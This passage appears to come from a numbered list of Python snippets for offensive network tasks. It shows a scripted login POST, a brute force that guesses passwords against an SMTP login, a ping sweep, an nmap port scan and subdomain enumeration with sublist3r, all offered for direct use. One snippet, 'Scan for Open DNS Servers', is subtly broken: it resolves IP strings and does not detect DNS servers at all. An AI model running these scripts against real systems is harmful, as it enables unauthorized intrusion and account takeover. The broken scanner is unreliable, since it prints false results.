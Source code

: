 ### 73. **Send HTTP Requests Simulating User Input**
```python
import requests
payload = {'username': 'admin', 'password': 'test'}
response = requests.post('http://example.com/login', data=payload)
print(response.status_code)
```

### 74. **Scan for Open DNS Servers**
```python
import socket
for i in range(1, 255):
    ip = f'192.168.1.{i}'
    try:
        socket.gethostbyname(ip)
        print(f'Open DNS server: {ip}')
    except socket.error:
        pass
```

### 75. **Automated SMTP Brute Force**
```python
import smtplib
for password in ['password', '12345', 'admin']:
    try:
        server = smtplib.SMTP('smtp.example.com', 587)
        server.login('user@example.com', password)
        print(f'Password found: {password}')
        break
    except smtplib.SMTPAuthenticationError:
        pass
```

### 76. **Perform Ping Sweep**
```python
import os
for ip in range(1, 255):
    response = os.system(f"ping -c 1 192.168.1.{ip}")
    if response == 0:
        print(f"192.168.1.{ip} is up")
```

### 77. **Port Scanning with `nmap`**
```python
import nmap
nm = nmap.PortScanner()
nm.scan('192.168.1.1', '22-80')
print(nm.all_hosts())
```

### 78. **Extract Subdomains using `sublist3r`**
```python
import subprocess
subprocess.run(['sublist3r', '-d', 'example.com'])
```
